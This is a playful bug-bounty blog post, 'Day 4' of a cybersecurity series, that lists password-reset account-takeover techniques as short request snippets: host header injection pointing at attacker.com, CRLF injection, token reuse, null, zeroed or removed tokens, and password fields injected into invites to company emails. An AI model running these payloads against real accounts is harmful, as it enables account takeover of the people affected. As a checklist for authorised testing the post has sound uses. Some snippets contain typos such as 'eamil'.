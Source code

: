 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/b1357428-9893-4400-96c9-69e05733354a"> Password Reset Vulnerabilities  
date: 2023-12-12 07:00:02 +730
categories: [Resources, general]
tags: [bugbounty, password-reset-vuln,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 4</h1>



Hey, hacking enthusiasts! Ready to uncover some mind-blowing tricks? Dive into these HubSpot Full Account Takeover methods and master the hacker's playbook!

## 📧 Using Your Token on Victims' Email



```
POST /reset
email=victim@gmail.com&token=$YOUR-TOKEN$
```

Imagine slipping into someone's email fortress with a cleverly placed token. 🕵️‍♂️

## 🌐 Host Header Injection


```
POST /reset
Host: attacker.com
email=victim@gmail.com`
```

Messing with the host header to sow confusion. Crafty, right?

## 🎭 HTML Injection in Host Header


```
POST /reset
Host: attacker">.com
email=victim@gmail.com
```

Why settle for ordinary when you can inject style into your hacks? 😉

## 🕵️ Leakage of Password Reset in Referer Header


`Referrer: https://website.com/reset?token=1234` 

Spotting hidden treasures in the Referer Header - a classic move in the hacker's handbook.

## 🎭 Using Companies Email


```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc
```
Mixing business with pleasure by exploiting the power of company emails. 🏢💻

## 🚪 CRLF in URL


`/resetPassword?0a%0dHost:atracker.tld` 

Breaking into the reset realm with CRLF magic. 🪄

## 📬 HTML Injection in Email



`HTML injection in email via parameters, cookie, etc > inject image > leak the  token` 

Crafting emails that are not just messages but gateways to breach security. 💻🔓

## 🚮 Remove Token



`/reset?eamil=victims@gmail.com&token=` 

Playing hide and seek with tokens - remove, replace, and conquer. 🕵️‍♀️🎭

## 🔄 Change it to 0000



`/reset?eamil=victims@gmail.com&token=0000000000` 

Transforming tokens like a digital alchemist. ✨

## 🚫 Use Null Value



`/reset?eamil=victims@gmail.com&token=Null/nil` 

Because sometimes, nothing is more powerful than Null. 🧙‍♂️

## 🎲 Try an Array of Old Tokens



`/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]` 

Rolling the dice with a repertoire of old tokens. 🎲

## 🕵️ SQLi Bypass


`try sqli bypass and wildcard or, %, *` 

In the quest for knowledge, SQLi becomes the secret language. 🤫📜

## 🔄 Request Method / Content Type



`change request method (get, put, post etc) and/or content type (xml<>json)` 

Mastering the art of disguise - because not all requests are created equal. 🎭

## 🔄 Response Manipulation

`Replace bad response and replace with good one` 

Turning the tables by manipulating responses. It's like playing chess with code. ♟️

## 🚀 Massive Token



`/reset?eamil=victims@gmail.com&token=1000000 long string` 

Unleashing the power of the colossal token - because size does matter in the hacking world. 🚀

## 🔗 Crossdomain Token Usage



`If a program has multiple domains using the same underlying reset mechanism...` 

Navigating through domains like a digital acrobat - because sometimes, tokens transcend boundaries. 🌐

## Final Notes 📒 

🔍 Leaking Reset Token in Response Body

 🔄 Change 1 Char at the Begin/End to See if the Token is Evaluated

📬 Use Unicode Char Jutsu to Spoof Email Address

⏱️ Look for Race Conditions

 🔄 Try to Register the Same Mail with Different TLD (.eu, .net, etc)


----------

Hope you enjoy this adventure into the world of bug bounty hunting! Happy hacking!

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)